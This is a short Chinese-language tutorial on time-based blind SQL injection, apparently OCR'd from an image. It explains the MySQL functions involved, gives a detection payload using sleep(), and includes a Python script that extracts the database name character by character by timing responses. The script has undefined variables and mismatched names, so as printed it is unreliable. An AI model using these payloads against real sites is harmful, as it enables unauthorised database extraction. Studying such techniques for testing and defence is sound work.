 时间盲注的基本函数

if(1,2,3)：如果1为True，则执行2，否则执行3

sleep(x)：延迟x秒之后执行

ascii(char)：将字符转换为对应的ascii码

substr(str,pos,len)：将字符串从pos位开始截取len长度

Benchmark(x,1)： 执行表达式1，x次(消耗CPU)

基于时间盲注的思路

if() 函数，如果参数1为真，那么执行参数2(sleep函数)，否则执行参数3(一般为1)

SELECT * FROM users WHERE id = 1 and if(1=1,sleep(6),1)

此时可以在navicat上看到查询时间，当1=1恒为真，那么执行sleep()函数；

and后要紧跟 true or false ，所以第一个参数为false之后，就立即执行参数3，所以一般参数3为1，这样就可以正确查询and前的语句

为什么返回页面没有差异

第一种情况：无论输入什么都只显示无信息页面，如登录页面。这种情况下可能只有登录失败页面，错误页面被屏蔽了，并且在没有密码的情况下，登录成功的页面一般情况也不知道。在这种情况下有可能基于时间的SQL注入会有效

第二种情况：无论输入什么都只显示正常信息页面。例如，采集登录用户信息的模块页面，采集用户的IP，浏览器类型，refer字段，session字段，无论用户输入什么，都显示正常页面

第三种情况：差异页面不是由URL中的SQL语句来决定的。这种情况下，也只能使用基于时间盲注

判断注入

payload

if(now() = sysdate(),sleep(6),0)

1.通过使用几次这个语句改变sleep的时间，来说明存在注入

2.有的页面显示的有非法请求，但是这种很可能已经将SQL语句带入数据库执行了

3）布尔盲注

脚本：

```python
 	flag=''
 	url=''
 	payl = "' and if (ascii(substr(database(),{},1))>{},sleep(5),1) #"
    for i in range(1,length+1):
        low=32
        high=128
        mid=(low+high)//2
        while low<high:
            payload = paload_str.format(i,mid)
            print(payload)
            start_time=time.time()
            res=requests.get(url=url+payl)
            use_time=time.time()-start_time
            if use_time>5:
                low=mid+1
            else:
                high=mid
            mid=(low+high)//2
        print(chr(mid))
        flag+=chr(mid)
        print(flag)
```
